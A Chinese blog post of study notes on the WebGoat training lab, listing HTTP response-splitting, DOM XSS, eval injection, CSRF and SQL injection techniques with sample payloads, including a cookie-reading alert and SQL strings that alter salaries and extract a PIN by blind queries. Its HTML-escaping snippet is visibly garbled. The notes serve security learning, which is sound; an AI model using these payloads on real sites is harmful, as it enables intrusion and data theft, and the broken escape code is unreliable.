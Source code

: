 ```yaml
---
layout: post
title:  "WebGoat笔记"
date:   2014-03-03 16:23:37 +0800
categories: 笔记
tags:   [web]
---
```

1. http splitting
    对于302请求执行splitting，更改Last-Modified属性到未来时间来更改cookie
    
        foobar
        Content-Length: 0

        HTTP/1.1 200 OK
        Content-Type: text/html
        Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
        Content-Length: 47

        Hacked J

2. 基于dom的XSS
    * 使用img
    
            <img src=x onerror=;;alert('xss') />
    
    * 使用iframe
    
            <IFRAME src="javascript:alert('xss');"></IFRAME>
     
    * 其他标签
            
            please enter your password:<BR><input type="password" name="pass"/>
            <button onClick="javascript:alert('i have your password: '+pass.value);"></button>

    * scape来防止基于dom的XSS
    
            function escapeHTML (str) { 
            var div = document_createElement_x_x_x_x_x('div');
            var text = document_createTextNode(str);
                            div.a(text); 
                            return div.innerHTML; 
                     }

3. AJAX响应中的DOM注入
     一般在处理AJAX响应的时候会使用eval（），这样在响应中注入需要的JavaScript代码(如：`document.form.SUBMIT.disabled = false;`)

4. AJAX响应中的XML/json注入
     修改AJAX响应中的xml/json数据

5. 使用eval的危险
    如果AJAX响应中有执行eval_r()代码会很危险，通过注入来执行自己的代码，例如：
     `123');alert(document.cookie);('`

6. java检验输入的字符串防止存储的xss

        String regex = "[\\s\\w-,]*";
        String stringToValidate = firstName+lastName+ssn+title+phone+address1+address2+
        startDate+ccn+disciplinaryActionDate+
        disciplinaryActionNotes+personalDescription;
        Pattern pattern = Pattern.compile(regex);
        validate(stringToValidate, pattern);
     
7. java对输出的字符串encode防止存储的xss
   使用这里的encode方法

8. 需要确认的CSRF
    通过iframe
    ![iframe](/images/webgoat1.png)
    
    通过img
    ![iframe](/images/webgoat2.png)

9. 带有标识码的CSRF。在访问一个页面后生成的标识码，要作为参数在伪装的请求中提交
    提交一个请求，获取响应中的CSRFToken参数的值，在最终的请求中提交
    ![iframe](/images/webgoat3.png)

10. 注入
    * 命令注入  （使用;分隔多个命令）
    * xpath注入  http://www.w3school.com.cn/xpath/
    * SQL注入。使用or和and；--注释；
      例子：       
                
                smith' OR '1' = '1
                101 OR 1=1
                whatever'; UPDATE salaries SET salary=999999 WHERE userid='jsmith
                数字盲打：101 AND ((SELECT pin FROM pins WHERE cc_number='1111222233334444') > 10000 );
                猜字：101 AND (SELECT  ASCII(SUBSTR(name,1,1))  FROM pins WHERE cc_number=1111222233334444)=74  （转成charcode是为了使用一些工具（jhijack）进行一定范围内（'A' = 65 'Z' = 90 'a' = 97 'z' = 122）的批量测试）

11. [fuzzdb](https://code.google.com/p/fuzzdb/){:target="_blank"}

12. 会话完成攻击（[Session fixation](http://en.wikipedia.org/wiki/Session_fixation){:target="_blank"}）



这个哥们写得挺有意思。。。。                      
[http://blog.sina.com.cn/s/articlelist_1829596415_0_2.html](http://blog.sina.com.cn/s/articlelist_1829596415_0_2.html){:target="_blank"}）